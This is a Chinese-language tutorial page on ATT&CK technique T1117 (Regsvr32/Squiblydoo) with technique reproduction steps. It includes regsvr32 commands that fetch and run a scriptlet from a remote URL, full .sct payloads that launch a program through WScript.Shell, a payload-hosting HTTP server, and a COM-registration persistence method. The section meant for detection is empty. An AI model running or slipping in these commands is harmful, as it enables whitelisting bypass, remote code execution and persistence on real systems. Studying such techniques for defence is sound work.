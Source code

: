 # T1117-Regsvr32

Regsvr32.exe是一个命令行程序，用于在Windows系统上注册和取消注册对象链接，嵌入控件和动态链接库。Regsvr32.exe可用于执行任意二进制文件。

攻击者可以利用此功能来代理攻击代码的执行，以避免触发安全工具，这些工具可能无法监视regsvr32.exe进程的执行和加载的模块，因为Windows使用regsvr32.exe进行正常操作时会出现白名单或误报。Regsvr32.exe也是Microsoft签名的二进制文件。

Regsvr32.exe还可用于专门绕过进程白名单，使用功能加载COM scriptlet以在用户权限下执行DLL。由于regsvr32.exe具有网络功能，因此可以调用远程脚本来执行代码。

## 远程命令执行

```
读取远程payload执行
regsvr32 /s /n /u /i:<url/aa.sct> scrobj.dll
读取本地payload执行
regsvr32 /s /n /u /i:<aa.sct> scrobj.dll
```

### 技术复现

1. 建立aaa.sct文件放至HTTP服务

   ```
   File: aa.sct
   <?XML version="1.0"?>
   <scriptlet>
   <registration
     progid="TESTING"
     classid="{A1112221-0000-0000-3000-000DA00DABFC}" >
     <script language="JScript">
       <![CDATA[
         var foo = new ActiveXObject("WScript.Shell").Run("calc.exe"); 
       ]]>
   </script>
   </registration>
   </scriptlet>
   
   root@kali:~/L/sct# python -m SimpleHTTPServer 
   Serving HTTP on 0.0.0.0 port 8000 ...
   
   ```

### 结果验证

![1568433329432](C:\Users\scmite\Desktop\T1117-Regsvr32.assets\1568433329432.png)



## 后门驻留

该技术用户后门的方式与远程命令执行类似，在调用远程脚本去掉选项 /n /u 让COM对象注册到注册表中，需要用脚本执行COM对象才能执行（这种方式还需要其他的机制触发脚本运行才能稳定控制，有点鸡肋），所以通过COM劫持替换常被调用的COM对象来实现驻留更为有效，COM劫持本篇不讨论，留在后门的文章详说。

### 技术复现

1. 创建COM对象的sct文件

   ```
   <?XML version="1.0"?>
   <scriptlet>
   <registration
     progid="Test"
     classid="{20002222-0000-0000-0000-000000000002}"
   >
   </registration>
   <public>
     <method name="exec">
     </method>
   </public>
   <script language="JScript">
     <![CDATA[
       function exec(){
         new ActiveXObject('WScript.Shell').Run('calc.exe');
       }
     ]]>
   </script>
   </scriptlet>
   ```

2. 创建执行脚本调用COM对象

   ```
   var test = new ActiveXObject("Test");
   test.exec()
   ```

### 结果验证

![1568438662858](C:\Users\scmite\Desktop\T1117-Regsvr32.assets\1568438662858.png)

此时在注册表可以看见注册的COM对象

![1568438770222](C:\Users\scmite\Desktop\T1117-Regsvr32.assets\1568438770222.png)

![1568438841369](C:\Users\scmite\Desktop\T1117-Regsvr32.assets\1568438841369.png)

## 相关知识

1. Regsvr32的参数含义

   Regsvr32 [/s] [/n] [/i[:cmdline]] dllname
   　　/u 卸载安装的控件，卸载服务器注册
   　　/s 注册成功后不显示操作成功信息框
   　　/i 调用DllInstall函数并把可选参数[cmdline]传给它，当使用/u时用来卸载DLL
   　　/n 不调用DllRegisterServer，该参数必须和/i一起使用

   当使用 /u 时，命令不会在注册表注册COM对象，只会执行远程的scriptlet

2. srcobj.dll起到什么作用

   Scrobj.dll用于注册和取消注册COM对象，这是触发此操作所需的。[详情见此](https://security.stackexchange.com/questions/183021/how-does-this-applocker-bypass-work-exactly-squibblydoo)


## 威胁取证



## 参考

https://attack.mitre.org/techniques/T1117/

https://www.carbonblack.com/2016/04/28/threat-advisory-squiblydoo-continues-trend-of-attackers-using-native-os-tools-to-live-off-the-land/

https://security.stackexchange.com/questions/183021/how-does-this-applocker-bypass-work-exactly-squibblydoo

